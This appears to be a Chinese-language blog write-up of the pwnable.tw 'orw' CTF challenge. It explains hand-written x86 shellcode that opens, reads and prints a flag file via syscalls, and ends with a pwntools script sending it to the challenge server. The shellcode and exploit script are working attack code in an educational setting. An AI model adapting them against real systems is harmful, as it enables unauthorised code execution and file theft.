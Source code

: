 ```yaml
---
title: pwnable.tw orw writeup
date: 2018-03-14 12:32:31
tags: pwn
categories: CTF
---
```

pwnable.tw orw writeup shellcode的编写
<!-- more -->
呀真的好久没有写博客了，最近在做一些题，都在看别人的题解，做过也忘了，接下来希望好好记录一下，帮助自己理解。

这道题是有关shellcode的编写，这部分我之前也没学习过，都是使用机器生成的。就...结合别人的writeup 说一下自己的理解吧。

高级语言形式
```
char *fn = "/home/orw/flag";
sys_open(fn,0,0)
sys_read(3,fn,0x30)
sys_write(1,fn,0x30)
```
查看 [linux 系统调用](http://syscalls.kernelgrok.com/) 获得各个函数的调用号
```
首先是第一部分 sys_open
xor ecx,ecx ;清空ecx寄存器
mov eax,0x5;查看以上资料知道 sys_open 对应0x5
push ecx ;把一个空值压入栈中(这里不是很理解)
push 0x67616c66;galf(flag) 接下来就是把字符串作为参数压入栈中 数字就是字符的ASCII码十六进制值
push 0x2f77726f; /wro (orw/)
push 0x2f656d6f; /emo (ome/)
push 0x682f2f2f; h/// (///h)
mov ebx,esp;把内容移到ebx
xor edx,edx;清空 edx
int 0x80;中断 执行syscall

第二部分是sys_read
mov eax,0x3;sys_read
mov ecx,ebx;flag文件中的内容
mov ebx,0x3;文件描述符
mov dl,0x30;用于中断(??)
int 0x80;中断 执行syscall

第三部分是sys_write
mov eax,0x4;sys_write
mov bl,0x1;用于中断
int 0x80


```
最后的脚本：
```
from pwn import *
io = remote('chall.pwnable.tw',10001)
shellcode = ''
shellcode+=asm('xor ecx,ecx;mov eax,0x5;push ecx;push 0x67616c66;push 0x2f77726f;push 0x2f656d6f;push 0x682f2f2f;mov ebx,esp;')
shellcode +=asm('xor edx,edx;int 0x80;mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov dl,0x30;int 0x80;')
shellcode+=asm('mov eax,0x4; mov bl,0x1;int 0x80;')
io.recvuntil(':')
io.send(shellcode)
io.interactive()
```
